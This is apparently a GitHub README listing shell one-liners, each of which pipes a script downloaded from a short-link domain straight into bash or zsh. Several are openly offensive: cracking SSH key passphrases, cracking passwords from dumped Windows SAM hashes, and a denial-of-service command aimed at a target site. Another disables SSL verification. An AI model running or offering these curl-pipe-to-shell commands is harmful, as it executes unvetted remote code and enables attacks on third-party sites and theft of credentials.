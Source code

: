 # Magic oneliners

This repository is about bash/python/programming language oneliners that can do an incredible amount of work.

## Oneliners

* [Crack a ssh private key](https://raw.githubusercontent.com/4thel00z/oneliners/master/scripts/crack_ssh_password.zsh)

```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/crackssh | zsh -s <path-to-private-key> <path-to-wordlist> 

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/crackssh | bash -s <path-to-private-key> <path-to-wordlist> 
```

* [Setup a cool go project template](https://github.com/4thel00z/service_templated)

```
# Ideally you do this in your ~/go/src/github.com/<your-gihub-username>/ or other smart places
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/boilerplate | bash -s <project_name>
```

* [DOS a webpage](http://gendos.site)

```
# What this does, is it downloads https://github.com/rakyll/hey for amd64 linux and shoots against the 'target.com'
curl -L "gendos.site?args=https://target.com%20-n=1000000" | sh
```

* [Upload encrypted stuff to your gist](https://shortly.fun/upload-gist)

First create a github token [here](https://github.com/settings/tokens/new) if you haven't already used `hub login`.

```
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/upload-gist | zsh -s <path-to-file> <name-of-gpg-recipient> [optional: <github-token-with-gist-permissions>]
```

* Decrypt those gists again :D

```
curl  --proto '=https' --tlsv1.2 -L -sSf  | base64 -d | gpg --decrypt
```

* [Crack sam_hashes](https://shortly.fun/cracksam)

If you have successfully dumped hashes from the sam database of a Windows target and stored them to a file you can use the following scrip to retrieve the cleartext passwords:

```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/cracksam | zsh -s <absolute-path-to-hashes> <absolute-path-to-wordlist>

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/cracksam | bash -s <absolute-path-to-hashes> <absolute-path-to-wordlist>
```


* [Disable ssl verification](https://shortly.fun/no-ssl-verification)

If you want to disable ssl verification for a software which uses openssl or gnutls as a shared library you can do the following:
```
# Download via: 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/no-ssl-verification | zsh -s <some-command-you-want-to-disable-ssl-verification-for>

# or in case you haven't installed zsh yet or use fish 
curl  --proto '=https' --tlsv1.2 -L -sSf https://shortly.fun/no-ssl-verification | bash -s <some-command-you-want-to-disable-ssl-verification-for>
```


* [Generate a report](https://github.com/4thel00z/reportgen)

In case you are a l33t h4x0r who wants to render the nicest OSCP pentesting report or some boring stuff documentation for your newest JS hipster framework with 666 stars you can use the following command on a markdown that looks like [this](https://raw.githubusercontent.com/4thel00z/reportgen/master/example.md):

```
curl  --proto '=https' --tlsv1.2 -L -sSf  https://shortly.fun/genreport  | zsh -s example.md example.pdf
```

* [Opne url in wayback machine (private firefox window)](https://shortly.fun/wayback)

In case you want to check for a url in a private firefox window in the [Wayback machine](https://archive.org/) you can use the following script:

```
curl  --proto '=https' --tlsv1.2 -L -sSf  https://shortly.fun/wayback  | zsh -s https://example.com
```



## License

This project is licensed under the GPL-3 license.
